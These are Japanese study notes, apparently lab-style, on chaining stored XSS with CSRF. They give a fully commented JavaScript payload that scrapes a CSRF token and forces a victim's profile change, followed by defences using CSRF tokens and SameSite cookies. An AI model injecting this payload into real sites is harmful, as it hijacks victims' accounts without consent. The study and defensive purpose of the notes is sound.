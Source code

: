 攻撃準備
1. 攻撃をするためのJSスクリプトを用意する
必要なもの : 

2. 攻撃者は、CountryフィールドのStored XSSの脆弱性を使用して、以下のスクリプトを入力する
```javascript
<script>
var req = new XMLHttpRequest(); // HTTPリクエストを送る準備
req.onload = handleResponse;    // リクエスト完了時に handleResponse 関数を実行するよう設定
req.open('get','/app/change-visibility',true); // GETメソッドで /app/change-visibility に非同期(true)で接続を準備
req.send();                     // 上で準備した GET リクエストを実際に送信
function handleResponse(d) {     // GETリクエスト完了後に呼び出されるコールバック関数を定義
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1]; // 応答HTMLから hidden フィールド name="csrf" の value にあるCSRFトークン(\w+に一致)を抽出
    var changeReq = new XMLHttpRequest(); // もう一つの HTTP リクエスト用に新しい XMLHttpRequest オブジェクトを作成
    changeReq.open('post', '/app/change-visibility', true); // POSTメソッドで /app/change-visibility に非同期(true)で接続を準備
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); // POSTデータの送信形式を application/x-www-form-urlencoded に設定
    changeReq.send('csrf='+token+'&action=change'); // 取得したトークンと action=change をリクエストボディに入れて送信
};                          // handleResponse 関数定義終了
</script>

```
- ![](https://i.imgur.com/iOANx8V.png)


被害者の閲覧
3. 被害者が、攻撃者のプロフィールページを閲覧することによって、攻撃者のCountryに入力されているStored XSSのスクリプトが発火し、被害者のプロフィールが公開される

## 脆弱なCSRFトークンを利用したCSRF攻撃
脆弱なCSRFトークンで、ユーザー名などから特定できる場合、CSRFを計算できて、攻撃者が様々なリクエストを送ることができる
- まあ、そうだよね。

## CSRF攻撃の防御
###  CSRFトークンの導入
- サーバー側でリクエストごとに一意のトークンを発行し、それが正しいか検証する。
```
<form action="/transfer" method="POST">
  <input type="hidden" name="csrf_token" value="abc123xyz">
  <input type="text" name="amount" value="1000">
  <button type="submit">送金</button>
</form>
```
トークンがない・不正な値の場合、サーバー側でリクエストを拒否する。

###  `SameSite` Cookie属性を設定

クッキーがクロスサイトリクエストで送信されないように設定する。
`Set-Cookie: session=abc123xyz; Secure; HttpOnly; SameSite=Strict`
- `Strict`: クロスサイトリクエストではクッキーを送らない（推奨）
- `Lax`: GETリクエストなら送るが、POSTでは送らない
- `None`: すべてのリクエストでクッキーを送る（危険！）
